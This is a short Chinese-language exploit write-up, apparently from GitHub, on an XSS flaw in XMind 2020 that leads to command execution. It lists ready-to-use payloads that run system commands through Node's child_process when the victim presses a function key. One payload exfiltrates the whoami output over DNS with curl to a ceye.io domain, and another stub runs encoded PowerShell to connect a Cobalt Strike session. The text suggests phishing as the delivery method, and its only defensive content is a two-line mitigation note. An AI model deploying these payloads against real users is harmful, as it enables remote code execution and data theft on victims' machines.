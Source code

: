 # XMind 2020 存在XSS导致命令执行漏洞
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
## 部分payload
* 简单弹窗<br>`<img src=1 onerror=alert("1")>`<br>
* 弹计算器<br>`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
* 弹用户名<br>`<img src=x onerror="const exec = require('child_process').exec;exec('whoami').stdout.on('data', function (data) {alert(data);})">`
![image](https://user-images.githubusercontent.com/53027649/124340974-c5f69080-dbeb-11eb-990c-078a7cba2543.png)
* DNS带外<br>``<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">``<br>
![image](https://user-images.githubusercontent.com/53027649/124340984-d0b12580-dbeb-11eb-8e4c-990e508c66ca.png)
* 通过对powershell进行编码，然后替换payload上线CS<br>`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`
## 处置建议
* 目前官方暂未对该漏洞进行修复；
* 警惕外来的XMind文件，谨慎打开大纲模式!
